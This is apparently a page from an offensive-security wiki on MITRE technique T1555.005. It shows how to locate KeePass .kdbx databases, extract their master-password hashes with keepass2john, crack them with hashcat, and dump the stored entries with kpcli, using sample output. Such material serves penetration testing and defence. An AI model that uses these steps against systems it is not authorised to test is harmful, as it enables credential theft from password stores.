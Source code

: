 ```yaml
---
description: >-
  MITRE ATT&CK™ Credentials from Password Stores: Password Managers - Technique
  T1555.005
---
```


# Password managers

## Theory

Password managers generate and securely store passwords of various services, safeguarding them under a single master password. This master password serves as the key to access all the stored passwords within the password manager.&#x20;

Examples of Password Manager applications:

* [Built-in password managers (Windows)](../../ad/movement/credentials/dumping/windows-credential-manager.md)
* Third-party: KeePass, 1Password, LastPass

However, misconfiguration and security flaws are found in these applications that let us access stored data. Various tools could be used during the enumeration stage to get sensitive data in password manager applications used by Internet browsers and desktop applications.

## Practice

### KeePass

#### Cracking Master Password

{% tabs %}
{% tab title="Find and Crack" %}
If we gained access to the keepass database, we may be able to extract it and crack the master database password.&#x20;

Keepass database is stored as a `.kdbx` file, we can search for such files using following commands:

```powershell
#PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

#Cmd
dir /s /b C:\*.kdbx
```

One we exfiltrate the database to our attacking computer, we can start by using [keepass2john](https://gist.github.com/scottlinux/f6cb8b1bb7807e89c09c139064f69881) and save the output hase a crackable hash.

```bash
keepass2john keepass.kdbx > keepass.hash
```

Then, we may crack the master password using hashcat. See [this page](../delivery/passwd/brute-force/offline-password-cracking.md) for more details about cracking passwords.

```bash
hashcat -a 0 -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt --user
```

Now, we can open the database using [kpcli](https://github.com/rebkwok/kpcli) and dump passwords

<pre class="language-bash"><code class="lang-bash">$ kpcli --kdb=db.kdbx
Provide the master password: *************************
<strong>kpcli:/> dir
</strong>=== Groups ===
Database/

<strong>kpcli:/> cd Database
</strong><strong>kpcli:/Database> dir
</strong>=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Sample Entry                                               keepass.info
1. Sample Entry #2                          keepass.info/help/kb/testform.
2. User Company Password

<strong>kpcli:/Database> show -f 0
</strong>Title: Sample Entry
Uname: User Name
 Pass: Password
  URL: https://keepass.info/
Notes: Notes
</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1555/005/" %}
